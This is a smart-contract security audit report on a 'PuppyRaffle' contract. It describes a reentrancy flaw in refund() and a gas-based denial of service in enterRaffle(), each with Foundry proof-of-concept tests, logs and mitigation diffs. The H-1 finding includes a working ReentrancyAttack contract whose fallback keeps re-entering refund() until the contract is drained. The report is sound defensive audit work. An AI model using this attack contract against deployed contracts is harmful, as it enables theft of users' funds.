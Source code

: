 [H-1] Reentrancy in `refund()` allows malicious users to drain the contracts funds

**Description**
The function `refund()` does not follow the check effects interactions pattern. It refunds the player, and then removes the player from the `players` array. This allows malicious users to enter a smart contract that reenters the refund function on the receive callback, allowing them to drain the funds of the contract.

**Impact**
This allows malicious users to completely drain the contract of funds.

**Proof of Concept**
To prove this issue, I have written a test to be added to the `test/PuppyRaffleTest.t.sol` file, this test includes a `ReentrancyAttack` contract. To run these tests add the following to the test file:

```javascript
    function testReenterRefund() public{
        vm.startPrank(vm.addr(1));
        vm.deal(vm.addr(1), entranceFee);

        address[] memory players = new address[](1);
        players[0] = vm.addr(1);
        puppyRaffle.enterRaffle{value:entranceFee}(players);
        vm.stopPrank();

        vm.startPrank(vm.addr(10));
        vm.deal(vm.addr(10), entranceFee);

        ReentrancyAttack reentrancyAttack = new ReentrancyAttack(address(puppyRaffle));
        players[0] = address(reentrancyAttack);
        puppyRaffle.enterRaffle{value:entranceFee}(players);

        vm.expectRevert();
        reentrancyAttack.refund(1); // Refund attack should revert
    }
```

Additionally, add the `ReentrnacyAttack` contract to the test file, outside of the main test contract.

```javascript
contract ReentrancyAttack{
    PuppyRaffle puppyRaffle;
    uint256 playerIndex;

    constructor(address _puppyRaffle) {
        puppyRaffle = PuppyRaffle(_puppyRaffle);
    }

    function refund(uint256 _playerIndex) public{
        playerIndex=_playerIndex;
        puppyRaffle.refund(playerIndex);
    }

    fallback() external payable{ 
        if(address(puppyRaffle).balance > 0) {// assumes balance is in increments of entrance fee.
            puppyRaffle.refund(playerIndex);        
        }
    }
}
```

If the test fails, the refund loop will not revert, meaning the `PuppyRaffle` contract will be drained of funds, the test can be ran using:

```bash
forge test --match-test testReenterRefund 
```

Upon running this rest, we are met with a failing test with the following logs:

```
Failing tests:
Encountered 1 failing test in test/PuppyRaffleTest.t.sol:PuppyRaffleTest
[FAIL. Reason: call did not revert as expected] testReenterRefund() (gas: 274792)
```

**Recommended Mitigation**
To solve this issue I reccomend you modify the refund function to follow the checks, effects, interactions (CEI) pattern. Here we ensure that our effects, in this case, removing the player from the players array, happens before our interactions, in this case the call to send the players entrance fee back to them.

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerindex] = address(0);

        payable(msg.sender).sendValue(entranceFee);

-       players[playerindex] = address(0);

        emit RaffleRefunded(playerAddress);
    }
```

Once these changes are made you can rerun the added test from the PoC, which should now pass:

```bash
forge test --match-test testReenterRefund 
```

Logs:
```
Ran 1 test for test/PuppyRaffleTest.t.sol:PuppyRaffleTest
[PASS] testReenterRefund() (gas: 265271)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.11ms (450.22µs CPU time)
```

[M-1] Nested loop inside `enterRaffle()` create a DoS vulnerability

**Description**
There is a nested for loop inside `enterRaffle()` which is used to check for duplicate addresses within the `players` array, due to excessive gas build up when the players array is large, the functionality to enter the raffle can be denied. 

```javascript
        // Check for duplicates
        for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
```

**Impact**
This allows a malicious wealthy user to enter the raffle with many addresses, increasing the cost of entering the raffle to all whom wish to enter after them, effectively denying access to the `enterRaffle()` function and greatly increasing if not guaranteeing the malicious user wins the raffle.

**Proof of Concept**
We can utilize the `PuppyRaffle` test suite to create a proof of concept for this issue. We will add a test which enters the raffle 100 times, caches the gas used, and then enters another 100 times and compares the end gas usage to the start gas usage. Place the following inside `test/PuppyRaffleTest.t.sol`:

```javascript
    function testEnterRaffleDos() public{
        vm.prank(address(1));
        vm.deal(address(1), 10000 ether);
        vm.txGasPrice(1);

        uint count = 100;
        address[] memory players = new address[](count);

        for(uint i = 0; i < count; i++){
            players[i]=(address(i));
        }

        uint gasStart = gasleft();

        puppyRaffle.enterRaffle{value:count*puppyRaffle.entranceFee()}(players);

        uint gasEnd = gasleft();

        uint gasUsedFirst = (gasStart-gasEnd)* tx.gasprice;

        console.log("First Gas: ", gasUsedFirst);

        for(uint i = 0; i < count; i++){
            players[i]=(address(i+count));
        }

        uint gasStartSecond = gasleft();

        puppyRaffle.enterRaffle{value:count*puppyRaffle.entranceFee()}(players);

        uint gasEndSecond = gasleft();

        uint gasUsedSecond = (gasStartSecond-gasEndSecond)* tx.gasprice;

        console.log("Second Gas: ",gasUsedSecond);
    }
```

Note: Due to the nature of this attack, no test success criteria is set, we will instead rely on console logs to verify the vulnerabilities legitimacy

Now that the test is inside the test suite, it can be ran using:

```bash
forge test --match-test testEnterRaffleDos -vvv
```

Within the `Logs` section of the output, we see the following:

```
Logs:
  First Gas:  6250668
  Second Gas:  18068372
```

As you can see, the gas after the second 100 players has been added is dramatically higher then the first 100 players. Meaning that the gas cost will increase dramatically as more players enter the contest, either legitimately or illegitimately.

**Recommended Mitigation**
There are two potential mitigations I think you should consider:

1.
You may consider removing the check for duplicates, and removing the invariant that you can have an address enter the raffle multiple times. This is because if a user wants to enter the raffle multiple times, they can just create multiple addresses anyway. Also, in the docs you acknowledge this:

```
1. Call the enterRaffle function with the following parameters:
    i. address[] participants: A list of addresses that enter. You can use this to enter yourself multiple times, or yourself and a group of your friends.
2. Duplicate addresses are not allowed
```

You mention that you can enter yourself multiple times but also that duplicate addresses are not allowed, which seems like a contradiction. If you choose to go with this mitigation you can safely remove the nested for loop checking for duplicates from `enterRaffle()`.

2.
If you wish to keep the duplicate address check functionality, you may consider switching from a `players` array to a `playerAddress=>playerId` mapping, this would allow you to only loop through the `newPlayers` array parameter for `enterRaffle()` and check whether that player is in the raffle in constant time.
